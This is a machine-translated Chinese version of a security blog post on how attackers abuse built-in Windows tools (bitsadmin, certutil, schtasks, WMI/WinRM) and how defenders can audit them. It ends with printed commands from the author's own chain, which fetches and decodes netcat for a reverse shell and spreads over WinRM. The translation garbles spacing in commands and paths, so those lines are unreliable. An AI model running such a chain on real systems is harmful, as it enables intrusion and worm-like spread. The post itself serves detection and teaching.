# 靠土地生活:可疑的系统 32

> 原文：<https://infosecwriteups.com/living-off-the-land-suspicious-system32-6ad8d8119fe1?source=collection_archive---------3----------------------->

以下服务是恶意方最常滥用的一些服务。每个都内置于 Windows 中，默认情况下继承信任。因此，安全控制将永远无法在不影响操作系统的情况下完全隔离它们。例如，您的端点保护不能阻止命令提示符和 Powershell，因为工程师使用它们来执行自动化任务，也不能阻止任务调度器或 certuitl。这些都是重要的服务，发挥着自己的作用，但是，因为它们可以下载或解码文件，它们可以用来掩盖恶意活动。

下面，我们深入一些最常见的服务，以及它们是如何在野外使用的。我还试图展示如何识别可疑活动，或者至少意识到它们。我认为意识到这一点是一个好的开始，尤其是如果你是蓝队。

我眼中的关键是开始审计 Powershell 和命令行。尽管这些攻击中的一些作为宏运行，或在运行(浏览器)下运行，他们仍然依靠 cmd.exe，conhost.exe 或 Powershell 来实现他们的目标。对于其他人来说，审计通常是默认启用的，它只是记录的详细程度，并没有给出很多清晰度。

# Bitsadmin.exe

Bitsadmin 是一个命令行工具，允许您创建下载和上传文件的作业。正因为如此，它成为下载有效载荷或横向移动所需文件的完美工具。



这通常可以立即爆发或运行。从所看到的示例来看，在对文件或当前环境进行“检查”之后，构建并运行作业。与 Certutil 不同，Windows Defender 不会阻止下载。下面是一个即时作业的示例:



这可以分步骤进行:



Powershell 也有它唯一的模块叫做 **Start-BitsTransfer** 。这个模块还可以让你一次下载多个文件，使用:
*Start-bits transfer-Source C:\ client Source dir *。txt-Destination c:\ client dir \-transfer type 下载*



运行 Procmon 时，cmd、conhost 和 Powershell 都与以下内容进行交互:

*   c:\ Windows \ System32 \ bits admin . exe
*   c:\ Windows \ System32 \ en-GB \ bits admin . exe . mui
*   c:\ Windows \ sys wow 64 \ en \ bits admin . exe . mui

Svchost.exe 也写入 C:\Windows\prefetch\BITSADMIN。EXE-*

默认情况下，在 Bitsadmin 的 Windows 事件中还有一个启用的审核跟踪。日志清楚地显示了下载的内容。

*   微软-视窗-Bits-客户端/操作



记住，攻击者会隐藏他们的踪迹。因为 Bitsadmin 提供了这种详细程度，所以它们可能会被删除。由于缺乏知识或者因为删除它们不会影响安全/应用程序事件，这可能会被忽略。

HackingArticles.in 在 Bitsadmin 上做了一篇很好的文章，可以在这里找到:[https://www . hacking articles . in/windows-for-pentester-bits admin/](https://www.hackingarticles.in/windows-for-pentester-bitsadmin/)

# Certutil.exe

Certutil.exe 是一个命令行程序，作为证书服务的一部分安装。Certutil 可用于编码、解码和下载文件到主机上。在野外，文件已经被编码，所以它实际上是为了解码和下载。

从例子来看，更是如此，解码为*certutil-URL cache-split-f*经常被 AV 阻止。



以下是禁用 AV 时的一个示例:



一旦我们重新启用 Defender，它就会被阻止。值得注意的是，并不是所有的 EPs 都选择这项活动。



使用 Procmon 进行跟踪时，我们可以看到 Powershell、conhost 和 cmd 都接触到以下内容:

*   c:\ Windows \ system32 \ certutil . exe
*   c:\ Windows \ system32 \ certutil . exe . *
*   C:\Windows\certutil.exe
*   HKLM \软件\微软\ Windows NT \当前版本\图像文件执行选项\certutil.exe

Certutil 已经被滥用了一段时间，很可能是 Defender 等 EP 屏蔽它的原因。一些常见的建议是经常阻止可执行文件访问互联网。

更多信息，SentinelOne 在这里做了一篇很好的文章:[https://www . sentinel one . com/blog/malware-living-off-land-with-certutil/](https://www.sentinelone.com/blog/malware-living-off-land-with-certutil/)

我还在这里介绍了一些基础知识:

[https://www.youtube.com/watch?v=wu5FtdvlsHE](https://www.youtube.com/watch?v=wu5FtdvlsHE)

# Tasksche

与其说是滥用服务，不如说是真正按照预期使用它。逻辑炸弹和定时攻击往往可以通过设置定时任务来进行。任务调度器还允许您将任务作为系统运行，这对于后门或反向 shells 非常有用。



企业内部的跟踪应该很容易，因为这些通常由组策略管理。工程师很少会使用 Powershell 或 CMD 来创建计划任务，因此很容易在 SIEM 中进行跟踪。

使用 Procmon，我们可以看到 Powershell 和 cmd touch:

*   c:\ Windows \ System32 \ schtasks . exe
*   c:\ Windows \ System32 \ Windows powershell \ v 1.0 \ Modules \ scheduled tasks
*   HKLM \软件\微软\ Windows NT \ CurrentVersion \图像文件执行选项\schtasks.exe

默认情况下，Windows 还审核以下目录下的事件:

*   微软视窗任务调度/操作

# Windows 管理规范(WMI)和 WS-Management (Wsman/Winrm)



WMI 是一个巨大的主题，我只涉及其中的一小部分。当远离陆地生活时，你可以用 WMI 和 Wsman 做很多事情，但最常见的是在本地或远程运行命令或可执行文件。



当运行远程命令时，它将触及 Wsman/WinRm 服务。这在运行 Powershell 命令时使用，例如 **New-PSSession** 或**Invoke-Command-computer name machine-1-script block { hostname }-Credential $ a**。当远程侦察正在运行，你拿起审计线索。它可能表示入侵者，而不是自动脚本。

您可以获得许多信息，例如，远程机器防病毒解决方案:



针对这些命令中的大多数运行 Procmon 时，我可以看到 Powershell 和 cmd 与以下内容进行交互:

*   HKLM \软件\策略\微软\ Windows \ WinRM \服务
*   HKLM \软件\策略\ Microsoft \ Windows \ WinRM \ Client
*   HKLM \软件\微软\ Windows \当前版本\ WSMAN \客户端
*   HKLM \软件\ Microsoft \ Windows \ current version \ ws man \ Client \ backwardscompatibleencryption format
*   c:\ Windows \ System32 \ WBEM \ wmic . exe
*   HKLM \软件\ Microsoft \ Windows \ current version \ ws man \ Client \ auth _ negotiate
*   HKLM \软件\微软\ Windows \当前版本\WSMAN
*   c:\ Windows \ System32 \ WBEM \ en-US \ wmi utils . dll . mui
*   HKCU \软件\微软\ Windows \ current version \ ws man \ Client \ connection cookies \ http://localhost:5985/ws man？PSVersion=*
*   HKLM \软件\微软\ Windows \当前版本\ WSMAN \客户端\可信主机
*   HKLM \软件\ Microsoft \ Windows \ current version \ ws man \ Client \ auth _ Kerberos
*   HKLM \软件\ Microsoft \ Windows \ current version \ ws man \ Client \ auth _ negotiate
*   HKLM \软件\微软\ Windows \当前版本\ WSMAN \客户端\auth_basic
*   HKLM \软件\ Microsoft \ Windows \ current version \ ws man \ Client \ allow _ encrypted
*   HKLM \软件\微软\ Windows \ current version \ ws man \ Client \ default ports _ http
*   c:\ Windows \ System32 \ Windows powershell \ v 1.0 \ en-GB \ Microsoft。WSMan.Management.resources.exe
*   c:\ Windows \ System32 \ Windows powershell \ v 1.0 \ en-GB \ Microsoft。ws man . management . resources \ Microsoft。WSMan.Management.resources.dll
*   c:\ Windows \ System32 \ Windows powershell \ v 1.0 \ Modules \ Microsoft。WSMan.Management\*
*   c:\ Windows \ System32 \ Windows powershell \ v 1.0 \ ws man。Format.ps1xml
*   c:\ Windows \ System32 \ Windows powershell \ v 1.0 \ Modules \ Microsoft。WSMan.Management\Microsoft。WSMan.Management.psd1

在 Powershell 审核之外，您还应该能够在此处看到 Windows 事件:

*   微软-视窗-视窗远程管理/操作
*   微软-视窗-WMI-活动/操作
*   微软视窗分布式通讯

我们刚刚讨论的是最常见和最基本的攻击。从大量滥用上述服务的例子来看，如果 Windows 防火墙限制他们的互联网访问，大多数服务都会受到阻碍。这是我以前接触过的东西，这里:[https://secure logs . com/2020/04/26/hacking-with-powershell-malware/](https://securethelogs.com/2020/04/26/hacking-with-powershell-malware/)

我越是了解并试图理解攻击者是如何取胜的，就越是清楚审计和监控是关键。一个好的攻击者总是会找到一种方法，但只要有某种面包屑，你就有机会理解它是如何成功的。

如果你正在读这篇文章，而你从未看过这些事件，我强烈建议你去打猎。您可能找不到攻击者，但了解您环境中的正常情况是有好处的。

找点乐子…

我想我会建立一个攻击，并结合不同的技术来获得一个反向外壳。这个我叫 NetCatnRun，这里就不分享了。

该脚本基本上下载了一个编码的 Netcat，并向攻击者的机器查询监听端口。一旦它有了一个，它就等待，然后在那个端口上建立一个反向 shell。

一旦完成，使用我的“受损帐户”，它扫描子网打开 WinRm 端口，并运行测试，看看它是否可以连接。如果可以，它会在远程机器上重新开始这个过程。当击中 X.X.X.254 时，这就结束了。如果我想进一步复制并创建一个蠕虫，我总是可以将 IP 范围扩展到/24 以上。

[https://videopress.com/v/scOdx0VG?resizeToParent=true&cover = true&preload content = metadata](https://videopress.com/v/scOdx0VG?resizeToParent=true&cover=true&preloadContent=metadata)

当 Defender 运行并使用上面提到的一些服务时，这种攻击是成功的。

*Start-bits transfer-Source*'*https://raw . githubusercontent . com/secure logs/Powershell/master/Tools/NC . exe '-Destination $ env:TEMP \ NC . exe . txt*

*certutil-decode $ env:TEMP \ NC . exe . txt $ env:TEMP \ NC . exe*

*$ is live = Test-ws man $ current IP-Credential $ my Credential-authentic ation Negotiate-error action*

*silently continue invoke-Command-computer name $ current tip-Credential $ my Credential-script block {………………。}*

## 来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周简讯](https://weekly.infosecwriteups.com/)以 5 篇文章、4 个线程、3 个视频、2 个 Github Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！